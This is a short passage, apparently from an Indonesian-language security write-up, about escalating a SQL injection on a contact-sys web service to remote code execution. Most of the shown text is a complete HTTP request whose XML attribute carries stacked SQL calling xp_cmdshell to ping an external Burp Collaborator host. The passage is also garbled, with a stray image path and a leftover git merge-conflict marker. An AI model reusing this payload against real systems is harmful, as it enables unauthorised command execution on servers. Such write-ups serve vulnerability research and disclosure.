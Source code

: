 ![sqli](4.png)
>>>>>>> fd99555 (Update rebelsec.id Site)

kemudian attacker mengeskalasi kerentanan tersebut ke **RCETo** dengan bantuan **burp collaborator** :

```http
POST / HTTP/1.1
Host: contactws.contact-sys.com:3456
Content-Type: application/xml
Content-Length: 342

<REQUEST OBJECT_CLASS="TScenObject" ACTION="ScenObjects" SCEN_ID="33; DECLARE @command varchar(255); SELECT @command='ping yhjbc2mndl88o89il3ueyud7zy5pte.burpcollaborator.net'; EXEC Master.dbo.xp_cmdshell @command; SELECT 1 as 'STEP'" ExpectSigned="No" INT_SOFT_ID="DA61D1CE-757F-44C3-B3F7-11A026C37CD4" POINT_CODE="tzhr" lang="en"></REQUEST>
```
